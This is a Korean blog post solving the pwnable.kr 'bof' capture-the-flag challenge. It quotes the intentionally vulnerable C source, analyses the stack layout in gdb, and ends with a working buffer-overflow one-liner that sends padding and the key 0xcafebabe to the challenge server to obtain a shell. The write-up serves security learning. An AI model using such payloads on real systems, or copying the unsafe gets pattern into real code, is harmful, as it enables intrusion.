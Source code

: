 ```yaml
---
layout: post
title: "[pwnable.kr] bof 풀이"
date: 2018-05-30 04:44
categories: "[Pwn]pwnable.kr"
tags: UnKN0wnName
---
```

>## bof - [5pt]
>### Nana told me that buffer overflow is one of the most common software vulnerability.
>### Is that true?
>###
>### Download : http://pwnable.kr/bin/bof
>### Download : http://pwnable.kr/bin/bof.c
>### Running at : nc pwnable.kr 9000
  
  
---
 
문제 이름을 보아하니 이 문제는 Buffer Overflow를 사용하는 문제인 것 같네요. BOF에 대한 개념은 추후에 작성할께여  

일단 두 파일을 다운받아서 분석해 봅시다

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key)
{
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe)
	{
		system("/bin/sh");
	}
	else
	{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[])
{
	func(0xdeadbeef);
	return 0;
}
```
코드 자체에서 힌트를 줘버리네요
  
gets 함수가 받을 문제 수를 제한하지 않고 문자를 받아들여서 overflow가 일어나요  
오버플로우를 이용해 key 값을 0xcafebabe 로 바꿔주면 쉘을 딸 수 있을 것 같아요

이 부분을 디버거로 분석 가즈아~~~~

![bof_gdb_func](/pic/pwnable_kr/bof/bof_gdb_func.png)

func 함수를 어셈블리어로 보면 다음과 같아요  
여기서 문자를 받아서 들어가는 곳을 찾기위해서는 gets 함수의 인자를 봐야겠죠?  

<func+29> 부분에서 [ebp-0x2c] 부분의 주소를 eax에 넣어요  
<func+32> 에서 gets의 인자는 eax가 가지고 있는 주소가 되네요  
따라서 우리가 직접 넣는 값은 [ebp-0x2c]의 위치에 저장되는 것을 확인할 수 있어요!

따라서 이 부분에 0xcafebabe를 넣어주면 CLEAR!!!

# Exploit

![bof_ex_pic](/pic/pwnable_kr/bof/bof_ex_pic.png)

---
>### $ (python -c 'print "\x90"*52 + "\xbe\xba\xfe\xca"';cat) | nc pwnable.kr 9000

![bof_ex_flag](/pic/pwnable_kr/bof/bof_ex_flag.png)

----
